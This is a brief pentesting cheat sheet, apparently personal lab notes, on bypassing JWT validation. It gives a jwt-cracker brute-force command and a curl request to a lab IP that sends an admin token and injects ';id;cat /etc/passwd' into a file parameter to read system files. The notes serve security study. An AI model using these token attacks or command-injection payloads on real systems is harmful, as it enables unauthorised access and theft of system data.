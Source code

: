 # JWT Tokens

The three main ways to bypass JWT validation:

* Using the `none` alg
* Hijacking another user
* Brute forcing the key.

### Decode the JWT token

{% embed url="https://jwt.io" %}

### Crack JWT tokens

{% embed url="https://lmammino.github.io/jwt-cracker" %}

* ```
  jwt-cracker "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWV9.TJVA95OrM7E2cBab30RMHrHDcEfxjoYZgeFONFh7HgQ" "abcdefghijklmnopqrstuwxyz" 6
  ```
* #### ddd

### Local file inclusion

```
curl -i \
  -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MWUzNGRkOWJmNTYxMjA0NjIyMGQxYzciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6Imxlb25AbGVvbi5jb20iLCJpYXQiOjE2NDIyODcxMDJ9.5MlYl8Eubb0sci3Jt3cuacNSki36aGeUoHNrMWXeBXE' \
  'http://10.10.11.120/api/logs?file=index.js;id;cat+/etc/passwd' | sed 's/\\n/\n/g'
```
